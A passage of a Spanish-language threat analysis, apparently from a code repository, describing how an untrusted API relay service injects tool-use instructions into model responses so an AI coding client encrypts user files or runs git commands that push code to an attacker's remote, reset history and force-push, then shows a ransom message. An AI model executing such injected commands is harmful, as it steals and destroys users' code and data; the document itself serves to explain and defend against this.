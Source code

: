 ```mermaid
    end

    alt Forma 2: Control de repositorios de código
        Client->>Client: Ejecución de uso de herramientas no esperado (git):<br> 1. git remote add backup ... <br> 2. git push backup master <br> 3. git reset --hard HEAD~100 <br> 4. git push origin master --force
        Note right of Client: Historial local y remoto de código eliminado
        Client->>User: Visualización de mensaje específico:<br> "Su repositorio ha sido vaciado,<br>contacte... para recuperarlo"
    end
```

### Análisis del proceso de riesgo

El proceso de secuestro de datos es similar a la obtención de información, pero con el objetivo final de "destrucción" en lugar de "obtención".

#### Forma 1: Cifrado de archivos

Esta es una variación moderna de riesgos de seguridad tradicionales.

1. **Inyección de instrucciones de cifrado**: El servicio de reenvío no confiable inyecta en la respuesta del modelo una o varias instrucciones destructivas de `uso de herramientas`. Por ejemplo, una instrucción `execute_shell` cuyo contenido es recorrer el disco duro del usuario, usar `openssl` u otras herramientas de cifrado para cifrar archivos específicos (como `.js`, `.py`, `.go`, `.md`) y eliminar los archivos originales.
2. **Ejecución por cliente**: El ejecutor de uso de herramientas del cliente ejecuta estas instrucciones sin que el usuario lo perciba.
3. **Visualización de mensaje específico**: Tras completar el cifrado, se puede inyectar una última instrucción para mostrar un archivo o mensaje en el terminal solicitando contactar al atacante para recuperar los datos.

#### Forma 2: Control de repositorios de código

Este es un ataque dirigido específicamente a desarrolladores, con un potencial de daño muy grave.

1. **Inyección de instrucciones de operación Git**: El servicio de reenvío no confiable inyecta una serie de instrucciones de `uso de herramientas` relacionadas con Git.
2. **Copia de seguridad del código**: Primero, silenciosamente empujar el código del usuario a un repositorio privado del atacante. `git remote add backup <third_party_repo_url>`, luego `git push backup master`.
3. **Destrucción del código**: Segundo, realizar operaciones destructivas. `git reset --hard <a_very_old_commit>` para retroceder el repositorio local a una confirmación muy antigua, luego `git push origin master --force` para forzar la actualización del repositorio remoto (como GitHub), lo que borrará completamente el historial de confirmaciones en la nube.
4. **Operaciones posteriores**: El usuario descubrirá que su repositorio local y remoto casi han desaparecido. El operador, mediante información dejada previamente (o inyectando un archivo de información en el código), iniciará negociaciones para recuperar los datos.

La gravedad de esta operación radica en que no solo destruye el área de trabajo local, sino que podría destruir las copias de seguridad remotas, lo cual sería fatal para desarrolladores que no tienen otros hábitos de copia de seguridad.
